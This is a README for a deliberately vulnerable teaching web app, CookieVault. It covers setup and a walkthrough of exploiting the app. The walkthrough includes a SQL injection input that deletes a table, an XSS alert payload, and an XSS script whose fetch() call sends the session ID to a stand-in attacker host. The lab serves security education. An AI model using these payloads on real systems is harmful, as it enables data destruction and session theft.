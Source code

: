 ## CookieVault

Made for "Evanston Happy Hackers".

This is a simple Python+SQL app that shows how you can run a cookie bakery, and also what SQL Injection bugs are and what they can cause.

## Running

1. **Set up the virtual environment:**

    ```sh
    python3 -m venv venv
    source venv/bin/activate
    ```

2. **Install the required packages:**

    ```sh
    pip install flask
    ```

3. **Create the database and populate it with initial data:**

    ```sh
    python create_database.py
    ```

4. **Run the web application:**

    ```sh
    python run_web_app.py
    ```

5. **Access the application:**

    Open your web browser and go to `http://127.0.0.1:5000/`.

## Exploiting

To demonstrate SQL injection vulnerabilities:

1. **Update Cookie Stock:**

    - Go to the "Update Cookie Stock" section.
    - Enter a `cookie_id` and a `new_stock` value.
    - For example, to set the stock of cookie with `id=1` to 20, enter `1` for `cookie_id` and `20` for `new_stock`.

2. **SQL Injection Example:**

    - Enter a malicious input to exploit the SQL injection vulnerability that exists on the path `/update_stock`.
    - Make sure to edit the HTML form elements with `F12` to disable numeric input validation.
    - For example, to delete all cookies, enter `1; DELETE FROM cookies; --` for `cookie_id` and any value for `new_stock`.
    - This will execute the `DELETE FROM cookies` SQL command, removing all cookies from the database.

To demonstrate Cross-Site Scripting (XSS) vulnerabilities:

1. **Add Comment:**

    - Go to the "Add Comment" section.
    - Enter a comment.

2. **XSS Example:**

    - Enter a malicious script to exploit the XSS vulnerability.
    - For example, enter `<script>alert('XSS');</script>` as the comment.
    - This will execute the JavaScript code, showing an alert box with the message "XSS".

3. **Leaking Session ID:**

Enter a malicious script to leak the session ID.

For example, enter:

```js
<script>
document.addEventListener('DOMContentLoaded', function() {
    fetch('http://evil.deathstar/leak?session_id=' + document.getElementById('session_id').value);
});
</script>
```

as the comment.

This will send the session ID to the specified URL, demonstrating how XSS can be used to steal sensitive information.

Look in the F12 console to see the session ID being exfiltrated via the Network tab.


**Note:** This is for educational purposes only. Do not use SQL injection or XSS in real applications.